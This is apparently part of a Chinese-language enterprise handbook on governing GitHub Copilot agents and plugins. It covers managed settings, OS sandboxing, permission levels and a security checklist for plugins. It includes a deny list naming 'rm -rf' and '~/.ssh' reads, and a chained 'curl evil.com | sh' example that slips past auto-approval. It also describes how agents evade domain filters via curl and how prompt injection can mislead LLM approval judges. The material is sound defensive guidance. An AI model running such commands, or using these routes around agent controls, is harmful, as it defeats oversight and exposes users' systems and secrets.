| `Read(...)` | 檔案讀取／檢視路徑。支援 glob，並支援四種根：`//` 檔案系統根、`/` 工作區根、`~/` 家目錄、`./` 目前工作目錄 |
| `Edit(...)` | 檔案寫入／編輯路徑，比對方式同 `Read(...)`。`Write(...)` 為別名 |
| `Domain(...)` | 網路來源。裸主機名預設為 HTTPS，主機比對不分大小寫；`*.example.com` 同時涵蓋 `example.com` 與其子網域 |

#### `disableBypassPermissionsMode`：關掉「YOLO 模式」（第四版新增）

設為 `"disable"` 後，使用者**無法**開啟全開權限模式，各 Surface 的實際效果為：

- **Copilot CLI**：`--yolo`、`--allow-all`，以及 `--allow-all-tools`、`--allow-all-paths`、`--allow-all-urls` 等所有命令列選項在啟動時即被抑制、無法授予提升權限；`/yolo` 與 `/allow-all` 兩個 slash command 也被封鎖
- **VS Code**：全域自動核准設定 `chat.tools.global.autoApprove` 被關閉且無法重新開啟
- **GitHub Copilot app**：Session 設定中「Tool Permissions」的「Allow all」被封鎖

> ⚠️ **這是企業導入 AI Coding Agent 最該優先設定的一個鍵（建議架構）**。實務上絕大多數「Agent 誤刪檔案／誤推 branch／外洩機敏內容」事故，起因都是使用者為求方便自行開啟了全開模式。此鍵是唯一能從企業層一次關閉所有 Surface 全開模式的手段。

#### 企業團隊分層：`overridable` 覆寫機制（第四版新增，官方已實作）

Server-managed 佈署下，企業可依**企業團隊（enterprise team）成員身分**對不同群組套用不同治理值。要讓某個鍵可被團隊層調整，需在 `managed-settings.json` 中以 `{ "overridable": <VALUE> }` 語法標記；被標記的鍵在團隊有設值時採團隊值，未設值時退回企業預設。

- 支援 `overridable` 的鍵：`model`、`permissions.disableBypassPermissionsMode`、`permissions.deny`、`permissions.ask`、`permissions.allow`、`allowedMcpServers`、`deniedMcpServers`
- 未標記為 overridable 的鍵，仍是**企業層決定、團隊不可修改**
- **`enabledPlugins` 與 `extraKnownMarketplaces` 是「加法式」**：企業 `managed-settings.json` 設下基準線，團隊檔案可在其上**再追加**更多 Plugin 與 Marketplace

這正是「研發團隊可用 Playwright MCP，但財會系統團隊不可」這類差異化治理的官方實作路徑。

#### 兩項 Plugin 核心管控能力

| 能力 | 說明 | 治理效果 |
|---|---|---|
| **`extraKnownMarketplaces`** | 定義企業額外允許的 Marketplace 來源，每筆為具名物件，含 `source` 與選用的 `autoUpdate` 布林值 | 開發者可從企業自建來源安裝 Plugin |
| **`strictKnownMarketplaces`** | 把安裝來源限縮到明列清單；**空陣列代表完全封鎖** | 開發者無法從未經核准的來源安裝 Plugin |
| **`enabledPlugins`** | 以 `PLUGIN-NAME@MARKETPLACE-NAME` 為 key、布林值為值：`true` 強制啟用，`false` 強制停用 | 企業標準能力自動下發；也可用來**封殺**特定 Plugin |

**`autoUpdate` 的治理含意（2026-08-26 官方新增）**：設為 `true` 會要求 Client 定期重新整理該 Marketplace 並更新來自該來源的已安裝 Plugin；設為 `false` 則要求自動更新保持關閉；**省略則沿用 Client 既有預設或使用者設定**。由於 managed settings 具優先權，**使用者無法覆寫已定義的 `autoUpdate` 值**。此設定只作用於該 Marketplace，且 `strictKnownMarketplaces` 的限制仍會在重新整理與更新操作**之前**先行套用。

**支援的 source 型別**：

- `extraKnownMarketplaces` 支援 `"github"`（需 `repo`，格式 `OWNER/REPO`；選用 `ref` 與 `path`）、`"git"`（需 `url`；選用 `ref`、`path`）、`"directory"`（需 `path`）
- `strictKnownMarketplaces` 支援範圍更廣：`"github"`、`"git"`、`"url"`（需 `url`，選用 `headers`）、`"npm"`（需 `package`）、`"file"`（需 `path`）、`"directory"`（需 `path`）、`"hostPattern"`（regex 比對 Marketplace 主機）、`"pathPattern"`（regex 比對 Marketplace 路徑）

#### 設定範例（第四版依官方 Example configuration 校正）

```json
{
  "model": "auto",
  "permissions": {
    "disableBypassPermissionsMode": "disable",
    "deny": [
      "Shell(rm -rf *)",
      "Read(~/.ssh/**)",
      "Edit(//etc/**)",
      "Domain(*.unapproved.example)"
    ],
    "ask": [
      "Shell(git push *)",
      "Edit(/src/**)",
      "Domain(api.github.com)"
    ],
    "allow": [
      "Shell(npm test *)",
      "Read(/src/**)",
      "Domain(registry.npmjs.org)"
    ]
  },
  "enabledPlugins": {
    "enterprise-web-plugin@acme-plugins": true
  },
  "extraKnownMarketplaces": {
    "acme-plugins": {
      "source": {
        "source": "github",
        "repo": "acme-corp/enterprise-plugins"
      },
      "autoUpdate": true
    }
  },
  "strictKnownMarketplaces": [
    {
      "source": "github",
      "repo": "acme-corp/enterprise-plugins"
    }
  ],
  "sandbox": {
    "enabled": true,
    "allowBypass": false,
    "sandboxMcpServers": true,
    "sandboxLspServers": true
  }
}
```

> 上列鍵名、巢狀結構與值的型別皆依 `docs.github.com` 的 Enterprise managed settings 參考頁面（2026-08-31 查證）校正。第三版曾使用的 `knownMarketplaces` 陣列與 `enabledPlugins` 陣列寫法**不是官方格式**，請勿沿用。檔案的實際部署路徑與 MDM／群組原則下發方式，請以 `docs.github.com` 上「Configuring enterprise-managed settings」頁面的當下版本為準；企業部署前務必先在少量機器上驗證設定確實生效。

#### 三層 Plugin 治理策略

> ⚠️ 此小節為建議架構，並非 GitHub 官方規定的部署模式。

| 導入階段 | Marketplace 策略 | `enabledPlugins` 策略 | 適用對象 |
|---|---|---|---|
| **Phase 1：觀察期** | 保留預設的 `copilot-plugins` 與 `awesome-copilot`，以 `extraKnownMarketplaces` 追加企業自建來源；先不設 `strictKnownMarketplaces` | 僅下發 1–2 個低風險 Plugin | 第 22 章 Pilot 團隊 |
| **Phase 2：收斂期** | 啟用 `strictKnownMarketplaces` 並移除 `awesome-copilot`，改以 Vendoring 方式把已核准資源複製進企業自建 Marketplace | 下發企業標準 Plugin 全套，並以 `false` 明確封殺已知高風險 Plugin | 已完成第 21 章安全評估的團隊 |
| **Phase 3：封閉期** | `strictKnownMarketplaces` **僅保留企業自建 Marketplace**，並以 `autoUpdate: true` 確保修補即時下發 | 以企業團隊 `overridable` 機制依部門差異化下發 | 處理法遵／高機敏資料的團隊 |

#### 與其他治理手段的分工

| 治理手段 | 管什麼 | 管不到什麼 |
|---|---|---|
| `managed-settings.json` | Plugin 的**來源**與**預設啟用清單**，跨所有 harness | Plugin 內部的 Agent／Skill 具體行為 |
| `CODEOWNERS` + PR review | Repository 內客製化資源的**內容變更** | 開發者個人 Scope 的資源 |
| Hooks（第 13 章） | Agent **執行期**的確定性攔截 | 資源安裝階段 |
| 第 21 章安全評估 | 資源**納入前**的人工審查 | 核准後外部內容被變更（需搭配 11.5 的 SHA 鎖定） |

> ⚠️ **企業實務結論**：`managed-settings.json` 是目前**唯一能同時管到 VS Code、Copilot CLI、Copilot app 與 cloud agent 四種 harness 的治理槓桿**。若企業已允許使用 Copilot app 卻沒有部署 `managed-settings.json`，等於第 20.1 的 Governance 模型只在 IDE 上生效，實際覆蓋率遠低於帳面。

### 20.6 Agent Sandboxing：OS 層級的最後一道防線

> ⚠️ 本節為第三版新增。前面所有治理手段（`managed-settings.json`、CODEOWNERS、`tools` 最小權限、Hooks）都屬於**應用層**控制；Agent Sandboxing 是唯一在 **OS 層級**強制執行的邊界，也是唯一能在「Agent 已被 prompt injection 攻陷」之後仍然有效的機制。

#### 為什麼需要 OS 層級隔離

VS Code 官方文件列出四個理由，每一個都對應企業實際遇過的問題：

| 理由 | 說明 | 企業實況 |
|---|---|---|
| **核准疲勞（approval fatigue）** | 逐一核准每個終端機指令，使用者最終會無腦按同意 | 導入三個月後，「Always Allow」被按滿，等於沒有防護 |
| **解析能力的極限** | Shell alias、引號串接、複雜語法可能繞過自動核准規則 | 允許 `npm test` 的規則，擋不住 `npm test; curl evil.com \| sh` 這類變形 |
| **Prompt Injection** | 模型可能被外部內容誘導執行非預期指令 | 對應第 20.4 節透過 PR 留言注入的真實案例 |
| **對外部服務的非預期動作** | Agent 可能誤觸雲端 API、CI、Issue Tracker | 「本來只是要跑測試，卻順手改了 Repository 設定」 |

#### 涵蓋範圍與不涵蓋範圍

| 項目 | 是否受 Sandbox 管轄 |
|---|---|
| Agent 工作階段中的終端機指令（`runInTerminal` 工具），**包含 Copilot Agent Host 工作階段** | ✅ 受管轄；沙箱內的指令會**自動核准、不再跳提示** |
| 內建的檔案讀取／編輯／寫入工具 | ❌ **不受管轄**——這些走 VS Code 自己的權限系統 |
| 完整的開發環境隔離 | ❌ 不涵蓋，需另外搭配 **dev container** |

> ⚠️ 這是本節最重要的一個誤解點：**開了 sandbox 不等於「Agent 不能亂改檔案」**。檔案編輯工具走的是另一套權限模型。Sandbox 防的是「終端機指令做了你沒預期的事」。

#### 檔案系統隔離規則

| 面向 | 預設行為 |
|---|---|
| 讀取 | 允許讀 workspace 資料夾與沙箱暫存資料夾 |
| 讀取 `$HOME` | **預設拒絕**——保護 `~/.ssh`、`~/.bashrc`、`~/.zshrc` 與各類憑證 |
| 寫入 | 限制在**當前工作目錄與其子目錄** |
| 逐指令自動放行 | 解析指令後自動授予必要路徑（例如 `git` → `~/.gitconfig`、`node` → Node 版本管理器目錄）；已涵蓋 git、node、npm、dotnet、Java、Rust |
| 自訂規則 | 可設定允許／拒絕清單，**拒絕永遠優先（deny always wins）** |
| 子行程 | 所有子行程一律繼承相同邊界 |

#### 網路隔離與設定

**所有對外連線預設封鎖。** 相關設定如下：

| 設定 | 用途 |
|---|---|
| `chat.agent.sandbox.enabled` | 啟用沙箱（**僅 macOS／Linux**），預設 `off`，可設為 `on` |
| `chat.agent.sandbox.allowNetwork` | 是否允許沙箱內指令對外連線 |
| `chat.agent.networkFilter` | 限制 Agent 工具與沙箱指令可存取的網域 |
| `chat.agent.allowedNetworkDomains` | 網域允許清單 |
| `chat.agent.deniedNetworkDomains` | 網域拒絕清單 |

> ⚠️ **官方明確警示**：放行網域時務必評估該網域本身的能力。例如允許 `api.github.com`，就等於允許 Agent 建立 PR 或修改 Repository 設定——網域允許清單本質上是**能力允許清單**，不是單純的連線白名單。

#### 各作業系統的實作與前置需求

| 平台 | 實作機制 | 前置需求 |
|---|---|---|
| **macOS** | Apple 沙箱框架（俗稱 Seatbelt） | 無需額外安裝 |
| **Linux／WSL2** | `bubblewrap`（檔案系統）＋ `socat`（網路代理） | `sudo apt-get install bubblewrap socat` 或 `sudo dnf install bubblewrap socat` |
| **WSL1** | — | **不支援**（缺少 user namespaces） |
| **Windows（原生）** | — | 目前設定僅標示支援 macOS／Linux，Windows 團隊須改以 dev container 或 WSL2 達成等效隔離 |

> ⚠️ **企業導入建議（建議架構）**：多數台灣企業開發環境以 Windows 為主，這代表 **Agent Sandboxing 在原生 Windows 上目前不可用**。務實的替代方案有三：（1）開發者改在 **WSL2** 中開啟 workspace；（2）統一使用 **dev container**；（3）在 Windows 上維持較嚴格的終端機指令核准政策，不啟用高自主模式（Autopilot）。企業標準文件應直接寫明「哪一種作業系統採用哪一種隔離方案」，而不是含糊帶過。

#### 與其他控制層的關係



圖說：實線為 VS Code 官方文件列出的五層信任與安全控制；虛線為本手冊補充的說明關係（建議架構）。

#### 企業層強制：`managed-settings.json` 的 `sandbox` 鍵（第四版新增，官方已實作）

上面描述的 `chat.agent.sandbox.*` 都是 **VS Code 個人設定**——使用者隨時可以自己關掉。若企業需要的是「使用者不能關」的沙箱，就必須使用第 20.5 節 `managed-settings.json` 的 `sandbox` 鍵（適用於 **Copilot CLI**）。

官方明訂其語意是「**施加限制（restrictions）而非設定預設值（defaults）**」，規則如下：

- **強制開啟型設定**：管理值為 `true` 代表強制啟用；`false` 或省略則不變動使用者設定
- **能力型設定**：管理值為 `false` 代表禁止該能力；`true` 或省略則不變動使用者設定
- 管理層的**讀寫與唯讀路徑清單會「限縮」使用者的授權**，而管理層的**拒絕路徑是「追加」**到使用者的拒絕清單

| 子欄位 | 治理效果 |
|---|---|
| `enabled` | `true` 則**強制沙箱且使用者無法停用** |
| `allowBypass` | `false` 則**禁止模型要求某條指令在沙箱外執行**（對應第 13.2.6 小節的 Sandbox Bypass） |
| `addCurrentWorkingDirectory` | `false` 可阻止 CLI 自動把目前工作目錄加入沙箱讀寫路徑 |
| `sandboxMcpServers` | `true` 則要求由 CLI 啟動的**本地 MCP Server 一律跑在沙箱內**（遠端 MCP Server 不適用） |
| `sandboxLspServers` | `true` 則要求由 CLI 啟動的語言伺服器跑在沙箱內 |
| `gitAuth` | `false` 阻止 CLI 在沙箱內注入 GitHub token 做 Git HTTPS 驗證 |
| `ghAuth` | `false` 阻止 CLI 在沙箱內為 GitHub CLI 注入 GitHub token |
| `allowDevToolAccess` | `false` 阻止自動存取開發工具的設定、快取、registry 與 toolchain——這些位置可能含有 registry 憑證或 token |
| `userPolicy` | 以子物件設定檔案系統、網路與 macOS Seatbelt 限制（見下表） |

**`userPolicy` 三個子區塊**：

| 區塊 | 子欄位與語意 |
|---|---|
| `filesystem` | `readwritePaths`／`readonlyPaths`：使用者設定的路徑只有在**字串完全相符**且出現在**每一個**有宣告該欄位的管理來源中才保留；空陣列會移除所有使用者設定的授權。`deniedPaths`：管理值是**追加**而非取代。注意比對是**逐字串比對絕對路徑**，不會自動推導父子目錄關係 |
| `network` | `allowOutbound: false` 封鎖對外網路；`allowLocalNetwork: false` 阻止存取內部網路。官方同時提醒：**Proxy 並非完整的出向控制邊界**，部分應用程式會忽略 Proxy 設定 |
| `seatbelt` | macOS 專用。`keychainAccess: false` 阻止沙箱內行程存取 macOS Keychain |

> ⚠️ **兩個實務提醒（建議架構）**：
>
> 1. **`allowDevToolAccess: false` 很容易弄壞建置**。它會阻斷包管理快取與 registry 憑證，造成包還原、驗證式 registry 操作或使用共享快取的建置失敗，除非你明確授予必要路徑。請先在 Pilot 團隊驗證。
> 2. **`sandbox` 與 `permissions` 同屬「最嚴格方向合成」的例外鍵**（見第 20.5 節優先序），一旦任一層加上限制，其他層**無法**把它放寬。這代表你可以安心地在企業層設下基礎防線，而不用擔心某個團隊檔案把它解除。

### 20.7 權限模型：四種核准層級與 Agent 網路過濾

> 本節為第四版新增。前三版把「治理」集中在檔案與設定層（`managed-settings.json`、`allowed-tools`），但**使用者在 Chat 介面上當場選擇的權限層級**才是最貼近真實風險的那一層。本節補上這塊。

#### 20.7.1 四種權限層級（官方已實作）

VS Code 的 Chat 檢視提供 **Permissions Picker**，讓使用者為**當前工作階段**選擇權限層級：

| 層級 | 語意 | 風險等級 | 適用情境 |
|---|---|---|---|
| **Default Approvals** | 依你已設定的核准規則決定何時詢問 | 低 | 預設值；日常開發 |
| **Assisted Permissions** | 由**LLM 判官（LLM judge）**逐一評估每次工具呼叫；判官不核准時才詢問使用者 | 中 | 想減少中斷、但仍要有一道判斷 |
| **Bypass Approvals** | **自動核准所有工具呼叫** | 高 | 僅限完全可信、可拋棄的隔離環境 |
| **Autopilot** | Agent Host 上的一種 agent mode：自動核准所有工具，並**持續驅動 Agent 直到任務完成** | 高 | 長時間自動化任務 |

**兩項重要限制（官方已實作）**：

1. **Assisted Permissions 與 Autopilot 只在 Agent Host 上可用**（見第 6.7 節 AHP／`chat.agentHost.enabled`）。未啟用 Agent Host 的環境不會看到這兩個選項。
2. **Assisted 不等於安全**。LLM 判官本身也是模型，同樣可能被 Prompt Injection 誤導。官方把它定位為「減少中斷」而非「取代人工把關」。

> ⚠️ **企業治理結論（建議架構）**：`Bypass Approvals` 與 `Autopilot` 應被視為**與 `--allow-all-tools` 同級的高風險開關**。企業政策建議寫成：
>
> - **禁止**在能觸及正式環境憑證、Production 資料庫或內網服務的機器上使用這兩種層級
> - 若要使用，**必須**同時開啟第 20.6 節的 Sandbox（網路封鎖 + 檔案系統限制），形成「自動核准 + 強制隔離」的組合
> - 在 CI／Cloud Agent 這類本來就隔離的環境中，這兩種層級才是合理選擇

#### 20.7.2 Agent 網路過濾與瀏覽器工具政策（官方已實作）

當 Agent 具備瀏覽器與網路能力後，「Agent 能連到哪裡」本身就成為必須治理的邊界。官方提供兩項**企業政策層**（可透過 Copilot enterprise settings 檔或既有 MDM 派送）的控制：

| 政策 | 作用 |
|---|---|
| `BrowserChatTools` | **整體停用**瀏覽器工具 |
| `ChatAgentNetworkFilter` | **限制 Agent 工具可連到的網域**，搭配允許清單與拒絕清單使用 |

**與 Sandbox 的關係（建議架構）**：這兩者處理的是不同層次的問題，**不可互相取代**——

- `ChatAgentNetworkFilter` 管的是**Agent 工具自身**（例如瀏覽器工具、抓網頁）要連到哪裡
- 第 20.6 節的 `sandbox.userPolicy.network` 管的是**Agent 執行的終端機指令**（`curl`、`npm install`、自訂腳本）能不能對外連線

一個常見的治理漏洞是：只設了 `ChatAgentNetworkFilter`，卻沒開 Sandbox，結果 Agent 用 `curl` 就繞過了網域限制。**兩者要一起設。**

#### 20.7.3 企業 Plugin 政策設定鍵（官方已實作）

除了第 20.5 節 Copilot CLI 的 `managed-settings.json`，VS Code 側另有三個**政策支援（policy-backed）**的設定鍵，可透過 Copilot enterprise settings 檔或既有 MDM 方案派送：

| 設定鍵 | 作用 |
|---|---|
| `chat.plugins.enabledPlugins` | 允許使用的 Plugin 清單 |
| `chat.plugins.extraMarketplaces` | 額外信任的 Plugin 市集 |
| `chat.plugins.strictMarketplaces` | 限制只能使用已知市集 |

> **與 CLI 的對照（第四版重要提醒）**：這三個鍵與第 20.5 節 Copilot CLI `managed-settings.json` 的 `enabledPlugins`／`extraKnownMarketplaces`／`strictKnownMarketplaces` **語意對應但命名不同、檔案位置也不同**。企業導入時**必須兩邊都設**，否則會出現「IDE 已封鎖、CLI 仍可安裝」（或反之）的治理缺口。這是實務上最常見的落差之一，建議直接納入第 21 章的審查清單逐項核對。

### Scenario

某企業的 Security Team 一開始只審查「程式碼」，沒有把 Agent／Skill／Plugin 納入審查範圍，直到一次事件中發現某個社群 Skill 的 `allowed-tools` 授權了 Terminal 執行權限且腳本會對外連線，才驚覺客製化資源本身就是攻擊面之一。**修正**：把 20.1 的 Governance 模型正式納入企業 AI 治理政策，客製化資源比照第三方套件依賴（如 npm package）的審查標準處理。

### 本章 Checklist

- [ ] 已建立 Approved Agents／Skills／Plugins／MCP 清單機制
- [ ] 客製化資源的安裝與修改已納入 Audit Log
- [ ] 20.2 十類安全風險已納入企業 AI 治理政策文件
- [ ] 已用 20.4 的 2026 年真實威脅情資向管理層說明 Governance 投資的必要性
- [ ] 已部署 `managed-settings.json`，確認治理範圍涵蓋 Copilot app 與 Copilot CLI，而非只有 IDE（20.5）
- [ ] 已依 20.5 三層策略決定目前所處的 Plugin 治理階段（觀察期／收斂期／封閉期）
- [ ] 已依 20.6 決定各作業系統的隔離方案（macOS 原生沙箱／Linux 需裝 `bubblewrap`+`socat`／Windows 改用 WSL2 或 dev container）
- [ ] 已知悉 Agent Sandboxing **不涵蓋**內建檔案編輯工具，未將其誤當成全面防護
- [ ] 已設定 `permissions.disableBypassPermissionsMode: "disable"`，關閉全部 Surface 的 YOLO／全開模式（20.5）
- [ ] 已知悉 `permissions.allow` 是**交集**、`permissions.deny` 是**聯集**，並依此規劃分層規則
- [ ] 已決定哪些鍵標記為 `overridable`，以支援企業團隊差異化治理（20.5）
- [ ] 已以 `managed-settings.json` 的 `sandbox.enabled` 與 `sandbox.allowBypass` 建立使用者無法停用的 CLI 沙箱基礎線（20.6）
- [ ] `allowDevToolAccess: false` 若已啟用，已在 Pilot 團隊驗證不會弄壞建置與包還原
- [ ] 已明訂 `Bypass Approvals`／`Autopilot` 的使用邊界，並要求同時開啟 Sandbox（20.7.1）
- [ ] 已同時設定 `ChatAgentNetworkFilter` 與 `sandbox.userPolicy.network`，避免以終端機指令繞過網域限制（20.7.2）
- [ ] 已同時在 VS Code 政策鍵與 CLI `managed-settings.json` 兩側設定 Plugin 治理，確認無單邊缺口（20.7.3）

---

## 21. 社群資源安全評估 Checklist

### 21.1 Awesome Copilot Resource Security Checklist

在安裝任何 awesome-copilot（或其他社群來源）的 Agent／Skill／Plugin／Hook／MCP 前，逐項檢查：

- [ ] **Repository source**：確認來源 Repository 是否可信（是否為知名組織、star 數、issue 回應速度）
- [ ] **Maintainer**：確認貢獻者/維護者身份與過往紀錄
- [ ] **Last update**：確認最後更新時間，過舊或已停止維護需特別謹慎
- [ ] **License**：確認授權條款是否符合企業使用規範
- [ ] **Dependencies**：確認依賴的第三方套件是否有已知漏洞
- [ ] **Scripts**：逐行閱讀任何內含的 Shell／Python 等腳本
- [ ] **Shell commands**：確認 Hook／Plugin 是否執行 Shell 指令，指令內容是否合理
- [ ] **MCP servers**：確認綁定的 MCP Server 來源與權限範圍
- [ ] **Network access**：確認是否對外發送網路請求，目標端點是否可信
- [ ] **File access**：確認存取的檔案/目錄範圍是否合理，是否有存取範圍外的檔案
- [ ] **Environment variables**：確認是否讀取超出必要範圍的環境變數
- [ ] **Secrets**：確認沒有硬編碼的密碼／API Key／Token
- [ ] **Tool permissions**：確認 `tools`／`allowed-tools` 是否符合最小權限原則
- [ ] **Prompt injection**：確認資源內容是否有可疑的隱藏指令或誤導性描述
- [ ] **Obfuscated code**：確認是否有刻意混淆的程式碼
- [ ] **External download**：確認執行時是否會下載額外的外部內容
- [ ] **Supply-chain risk**：確認整條依賴鏈是否有已知風險節點

以下四項為第四版依 2026-08-31 官方複查結果新增：

- [ ] **`allowed-tools` 是否含 `shell`／`bash`**：官方對此下有明確 Warning——預先核准這兩者等於移除終端機指令的人工確認關卡，會讓 Prompt Injection 得以執行任意指令。含此項者一律列為 **HIGH** 並進入人工資安審查（第 8.2 節）
- [ ] **Hook 的 `matcher` 與 fail 語意**：確認攔阻型 Hook 使用 `command` 型（fail-closed）而非 `http` 型（fail-open），且 `timeoutSec` 未短到形同旁路（第 13.2.5 小節）
- [ ] **Hook 是否試圖以 Policy 路徑安裝**：任何要求寫入 `/etc/github-copilot/policy.d/`、`C:\ProgramData\GitHub\Copilot\policy.d\` 或 `HKLM\Software\Policies\GitHub\Copilot` 的資源，等同要求**機器層級、使用者無法停用**的權限，必須由企業 IT 而非開發者安裝（第 13.7.1 小節）
- [ ] **是否夾帶 `.claude/settings.json` 或 `settings.local.json`**：Copilot CLI 會直接讀取這兩者，而 `settings.local.json` 不進版控、繞得過 `CODEOWNERS`；clone 外部專案時應一併檢視（第 12.6 節）

### 21.2 Risk Level 與對應處理

| Risk Level | 判定標準 | 處理方式 |
|---|---|---|
| **LOW** | 純文字規則（Instructions），無工具授權、無外部連線 | 可直接進入標準 PR Review 流程 |
| **MEDIUM** | 具工具授權但範圍明確（如唯讀 Skill）、無 Shell 執行 | 需 Tech Lead 審查 + 沙盒測試 |
| **HIGH** | 具 Shell 執行能力（Hook／Plugin）、或綁定 MCP 存取外部系統 | 需 Security Team 審查 + 沙盒測試 + 限定初期使用範圍 |
| **CRITICAL** | 具生產環境存取權限、或處理 Secret／敏感資料 | 需 Security Team + Architecture Team 雙審查，並建立監控與 Rollback 機制才可上線 |

### Scenario

某資淺工程師想快速導入一個社群 Plugin，跳過了 21.1 Checklist 直接安裝到個人環境測試，結果該 Plugin 內建的 Hook 會在每次 Session 開始時把專案結構資訊傳送到一個不明的外部端點。因為只在個人沙盒環境測試、未擴散到團隊共用設定，損害有限，但也凸顯「即使是個人測試也該過 Checklist」的必要性。

### 本章 Checklist

- [ ] 21.1 完整 Checklist 已納入企業 SOP，安裝前必須逐項確認
- [ ] 已依 21.2 為每個待安裝資源評定 Risk Level
- [ ] CRITICAL 等級資源已建立監控與 Rollback 機制才允許上線

---

## 22. 企業團隊導入方法

### 22.1 六階段導入模型



### 22.2 各階段內容

| Phase | 內容 |
|---|---|
| Phase 1 — Awareness | 讓同仁了解 Copilot、Agents、Skills、Instructions、Plugins、MCP 的基本概念（可參考本手冊 Part I-II） |
| Phase 2 — Pilot | 選擇一個 Web Application、一個 Legacy System、一個 Framework Migration 作為試點（對應第 15-17 章案例） |
| Phase 3 — Standardization | 建立 Company AI Development Standards（第 34 章） |
| Phase 4 — Agent Platform | 建立企業 Agent Catalog（第 24 章） |
| Phase 5 — Governance | 建立 AI Agent Governance（第 20-21 章） |
| Phase 6 — Continuous Improvement | Measure → Review → Improve → Publish → Measure 循環（對應第 30 章 KPI） |

### Scenario

某企業一開始就想直接跳到 Phase 4（建立完整 Agent Platform），跳過 Phase 1-2，結果同仁對基本概念都還不熟悉，導入的 Agent Team 沒有人真正會用。**修正**：退回 Phase 1-2，先讓一個試點團隊完整跑過 Pilot，累積實務經驗後再擴大到 Standardization 與 Platform 階段。

### 本章 Checklist

- [ ] 已依 22.1 六階段模型規劃導入時程
- [ ] Pilot 階段已選定具代表性的 Web App／Legacy／Migration 案例
- [ ] 未跳過 Awareness／Pilot 階段直接進入 Platform／Governance 階段

---

## 23. 團隊標準目錄與資源歸屬

### 23.1 建議標準目錄

```text
.github/
├── agents/
│   ├── system-architect.agent.md
│   ├── reverse-engineering-agent.agent.md
│   ├── migration-agent.agent.md
│   ├── security-agent.agent.md
│   └── code-review-agent.agent.md
│
├── skills/
│   ├── web-application-development/
│   ├── reverse-engineering/
│   ├── framework-migration/
│   └── security-review/
│
├── instructions/
│   ├── java.instructions.md
│   ├── vue.instructions.md
│   ├── security.instructions.md
│   └── testing.instructions.md
│
├── hooks/
│   ├── pre-commit-quality-gate.json
│   └── agent-workflow-guard.json
│
├── workflows/
│
├── prompts/
│
└── copilot-instructions.md
```

### 23.2 資源歸屬建議

| 資源 | 建議歸屬 | 理由 |
|---|---|---|
| Coding Standard Instructions | Repository 共用 | 團隊共同規範，需版控且所有成員一致套用 |
| 個人偏好的 Prompt 捷徑 | 個人使用（`~/.copilot/`） | 因人而異，不適合強制全團隊套用 |
| Security／Architecture Review Agent | Team 共用 | 需要團隊一致的審查標準，但不一定適合全組織 |
| 通過安全審查的 Enterprise Toolkit | Plugin 化，Global 使用 | 已驗證過的能力組合，適合跨團隊/跨專案分發 |
| 個別專案特有的 Migration Skill | Repository 共用（該專案內） | 與特定專案的技術棧/歷史包袱高度相關，不適合泛化 |

### Scenario

某企業把一個「只適用於單一老系統」的 Migration Skill 直接發布成全組織 Global Plugin，結果其他專案的工程師誤用，導致不相關的錯誤變更建議。**教訓**：資源歸屬要對應其「適用範圍的真實邊界」，不是所有資源都適合往上收斂成 Global／Plugin 化。

### 本章 Checklist

- [ ] 已依 23.1 建立團隊標準目錄骨架
- [ ] 已依 23.2 判斷每個資源該歸屬 Repository／Team／個人／Global／Plugin 化

---

## 24. Agent／Skills／Instructions Catalog

> ⚠️ 以下三張表為本手冊依第 7-9 章內容彙整的企業目錄範例（建議架構），企業導入時應依實際需求增減。

### 24.1 Agent Catalog

| Agent | Purpose | 使用時機 | Tools | Skills | Output | Risk |
|---|---|---|---|---|---|---|
| system-architect | 整體架構決策 | 新專案／重大架構變更 | read, search | — | 架構決策文件 | LOW（唯讀） |
| frontend-architect | 前端架構設計 | 前端模組設計 | read, edit, search, terminal | web-application-development | 前端架構文件 | MEDIUM |
| backend-architect | 後端架構設計 | 後端模組設計 | read, edit, search, terminal | web-application-development | 後端架構文件 | MEDIUM |
| reverse-engineering-agent | Legacy 系統分析 | 現代化評估前 | read, search | reverse-engineering | Reverse Engineering Report 全套 | LOW（唯讀） |
| migration-agent | Framework 升級執行 | Migration Plan 核准後 | read, edit, search, terminal | framework-migration | 變更後程式碼＋Migration Report | HIGH（可修改程式碼） |
